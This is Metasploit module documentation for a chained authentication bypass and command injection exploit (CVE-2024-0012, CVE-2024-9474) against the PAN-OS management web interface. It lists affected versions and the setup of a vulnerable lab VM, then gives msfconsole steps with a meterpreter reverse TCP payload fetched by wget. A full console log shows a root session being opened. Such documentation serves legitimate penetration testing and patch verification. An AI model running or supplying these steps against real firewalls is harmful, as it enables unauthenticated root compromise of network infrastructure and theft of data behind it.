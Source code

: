 ## Vulnerable Application
This module exploits an authentication bypass vulnerability (CVE-2024-0012) and a command injection
vulnerability (CVE-2024-9474) in the PAN-OS management web interface. An unauthenticated attacker can
execute arbitrary code with root privileges.

The following version are affected:
  * PAN-OS 11.2 (up to and including 11.2.4-h1)
  * PAN-OS 11.1 (up to and including 11.1.5-h1)
  * PAN-OS 11.0 (up to and including 11.0.6-h1)
  * PAN-OS 10.2 (up to and including 10.2.12-h2)

## Testing
Install a new PAN-OS instance as a VM in VMWare, by downloading an OVA for a vulnerable version, for example
`PA-VM-ESX-11.1.4.ova`. Install this OVA in VMWare Workstation and boot the device. The first ethernet adapter
will be assigned an IP address via DHCP. This is the IP address of the management interface. You can complete setup
by visiting `https://MANAGEMENT_IP/` in your browser. You do not need to license the target VM in order to successfully
run the exploit against the target. The default user is `admin` with a password of `admin`, and you will be instructed
to change this upon logging in for the first time.

The exploit has been tested against PAN-OS `10.2.8` and `11.1.4`.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/panos_management_unauth_rce`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
5. `set LPORT 4444`
6. `check`
7. `exploit`

## Scenarios

### Default

```
msf6 exploit(linux/http/panos_management_unauth_rce) > show options

Module options (exploit/linux/http/panos_management_unauth_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[
                                       ,type:host:port][...]
   RHOSTS   192.168.86.98    yes       The target host(s), see https://docs.me
                                       tasploit.com/docs/using-metasploit/basi
                                       cs/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connecti
                                       ons
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   FETCH_COMMAND      WGET             yes       Command to fetch payload (Acc
                                                 epted: CURL, FTP, TFTP, TNFTP
                                                 , WGET)
   FETCH_DELETE       false            yes       Attempt to delete the binary
                                                 after execution
   FETCH_FILENAME     DVtyQpcA         no        Name to use on remote system
                                                 when storing payload; cannot
                                                 contain spaces or slashes
   FETCH_SRVHOST                       no        Local IP to use for serving p
                                                 ayload
   FETCH_SRVPORT      8080             yes       Local port to use for serving
                                                  payload
   FETCH_URIPATH                       no        Local URI to use for serving
                                                 payload
   FETCH_WRITABLE_DI  /var/tmp         yes       Remote writable dir to store
   R                                             payload; cannot contain space
                                                 s
   LHOST              eth0             yes       The listen address (an interf
                                                 ace may be specified)
   LPORT              4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/panos_management_unauth_rce) > check
[+] 192.168.86.98:443 - The target is vulnerable.
msf6 exploit(linux/http/panos_management_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Uploading payload chunk 1 of 8...
[*] Uploading payload chunk 2 of 8...
[*] Uploading payload chunk 3 of 8...
[*] Uploading payload chunk 4 of 8...
[*] Uploading payload chunk 5 of 8...
[*] Uploading payload chunk 6 of 8...
[*] Uploading payload chunk 7 of 8...
[*] Uploading payload chunk 8 of 8...
[*] Amalgamating payload chunks...
[*] Executing payload...
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.98:52364) at 2024-11-19 15:16:55 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.98
OS           : CentOS 8.3.2011 (Linux 4.18.0-240.1.1.20.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
